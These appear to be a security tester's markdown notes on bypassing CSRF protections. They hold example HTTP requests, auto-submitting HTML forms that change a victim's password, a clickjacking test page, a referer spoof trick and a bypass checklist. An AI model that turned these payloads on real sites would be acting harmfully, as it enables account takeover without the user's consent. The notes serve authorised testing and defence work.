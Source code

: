 # Methodology 
![[Pasted image 20230908032425.png]]


# CSRF Bypasses
    
- ==**ClickJacking**==
        
        ```
        <html> <head> <title>Clickjack test page</title> </head> <body> <p>This page is vulnerable to clickjacking if the iframe is not blank!</p> <iframe src="PAGE_URL" width="500" height="500"></iframe> </body></html>
        ```
        
    - **Change Request Method**
        
        ```
        POST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE(POST request body)new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b--------------------------------------------GET /password_change?new_password=abc123Host: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE
        ```
        
    - **Bypass CSRF Tokens stored on the server**
        
        ```
        # remove the tokenPOST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE(POST request body)new_password=abc123-------------------------------------------------------------<html> <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> <input type="text" name="new_password" value="abc123"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script></html>----------------------------------------------------------------# Empty ParameterPOST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE(POST request body)new_password=abc123&csrf_token=---------------------------------------------------------------------<html> <form method="POST" action="https://email.example.com/password_change" id"csrf-form"> <input type="text" name="new_password" value="abc123"> <input type="text" name="csrf_token" value=""> <input type='submit' value="Submit"></form> <script>document.getElementById("csrf-form").submit();</script></html>--------------------------# Expected Codedef validate_token(): if (request.csrf_token == session.csrf_token):		 pass else:	 throw_error("CSRF token incorrect. Request rejected.")[...]def process_state_changing_action():	 if request.csrf_token:		 validate_token()		 execute_action()
        ```
        
    - **Weak Token Integriti ( Reuse token )**
        
        ```
        POST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE(POST request body)new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b----------------------------------<html> <form method="POST" action="https://email.example.com/password_change" id"csrf-form"> <input type="text" name="new_password" value="abc123"> <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b "> <input type='submit' value="Submit"></form> <script>document.getElementById("csrf-form").submit();</script></html>--------------------------------------------------------------## Expected Codedef validate_token(): if request.csrf_token:	 if (request.csrf_token in valid_csrf_tokens):			 pass	 else:		 throw_error("CSRF token incorrect. Request rejected.")[...]def process_state_changing_action():	 validate_token()	 execute_action()
        ```
        
    - **Bypass Double submit CSRF tokens**
        
        ```
        # Valid POST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b(POST request body)new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b--------------------------# InvalidPOST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969(POST request body)new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b---------------------------------------# Bypass POST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token(POST request body)new_password=abc123&csrf_token=not_a_real_token
        ```
        
    - **Bypass CSRF Referer Header Check**
        
        ```
        # Just Remove The referrer<html> <meta name="referrer" content="no-referrer"> <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> <input type="text" name="new_password" value="abc123"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script></html>--------------------# Expected Codedef validate_referer(): if (request.referer in allowlisted_domains):pass else: throw_error("Referer incorrect. Request rejected.")[...]def process_state_changing_action(): if request.referer: validate_referer() execute_action()---------------------------# another wayPOST /password_changeHost: email.example.comCookie: session_cookie=YOUR_SESSION_COOKIE;Referer: example.com.attacker.com(POST request body)new_password=abc123------------------# Vulnerable codedef validate_referer(): if request.referer: if ("example.com" in request.referer): pass else: throw_error("Referer incorrect. Request rejected.")[...]def process_state_changing_action(): validate_referer() execute_action()
        ```
        
    - **Bypass CSRF Protection by Using XSS**
        
        Steal victim CSRF Token Via XSS Vulnerability

- Where To Find
    
    1. **Authentication-Required Actions**: Look for actions that require authentication, such as changing account settings, updating passwords, or making transactions. These are common areas where CSRF vulnerabilities can have significant impact.
    2. **User Profile Changes**: Check for actions related to user profile changes, such as updating email addresses, changing personal information, or modifying profile pictures.
    3. **Account Deletion or Suspension**: Actions that allow a user to delete or suspend their account could be targets for CSRF attacks.
    4. **Payment and Transactional Actions**: Look for payment-related actions like making transactions, adding payment methods, or modifying subscription plans.
    5. **Form Submissions**: Any action that involves form submissions could potentially be a target. This includes actions like submitting support tickets, submitting feedback, or submitting any kind of content.
    6. **CSRF Tokens**: Some applications use CSRF tokens as a mitigation technique. Look for instances where CSRF tokens are missing or improperly validated. You might find CSRF tokens in hidden fields within HTML forms or as headers in AJAX requests.
    7. **Third-Party Integrations**: If the application integrates with third-party services or APIs, check if these integrations are susceptible to CSRF attacks.
    8. **Changing Security Settings**: Actions related to changing security settings, like enabling two-factor authentication (2FA) or changing security questions, can also be targets.
    9. **Privilege Escalation**: Actions that involve escalating user privileges, such as changing a user's role or permissions, should be thoroughly tested for CSRF vulnerabilities.
    10. **Logging Out**: Even the logout functionality can be exploited through CSRF attacks, forcing a victim to unknowingly log out.
    11. **Password Reset**: If the password reset process doesn't include proper CSRF protections, an attacker could potentially change a user's password without their consent.

- [ ] **test login, logout, reset pass, change password, add-cart, like, comment, profile change, user details change, balance transfer, subscription, etc**
- [ ] **Use Burp-suite Generated poc**
- [ ] **Change single char**
- [ ] **Sending an empty value of token Replace with the same length**
- [ ] **Clickjacking**
- [ ] **Changing post/get method**
- [ ] **Remove it from the request**
- [ ] **Use another user's valid token**
- [ ] **Crsf protection by Referrer Header? Remove the header [ADD in form <meta name="referrer" content="no-reference">]**
- [ ] **Bypass using subdomain [****[victim.com.attacker.com](http://victim.com.attacker.com/)****]**
- [ ] **Try to decrypt the hash (maybe CSRF is a hash)**
- [ ] **Analyze Token(use burp)**
- [ ] **Gmail -> Mail sent to** **email+2=@gmail.com** **will send to** **email@gmail.com**
- [ ] **CSRF tokens leveraging XSS vulnerabilities**
- [ ] **Sometimes Anti-CSRF token is composed of two parts, one of them remains static while the other one is dynamic."837456mzy29jkd911139" for one request the other time "837456mzy29jkd337221" if you notice, "837456mzy29jkd" part of the token remains same, send the request with only the static part**
- [ ] **Sometimes the anti-csrf check is dependent on User-Agent as well.**
- [ ] **If you try to use a mobile/tablet user agent, the application may not even check for an anti-csrf token.**
### 6 CSRF Bypass by Hack3rSr0lls

[![](https://pbs.twimg.com/media/EY70bxkWkAAFzGb?format=jpg&name=900x900)](https://pbs.twimg.com/media/EY70bxkWkAAFzGb?format=jpg&name=900x900)


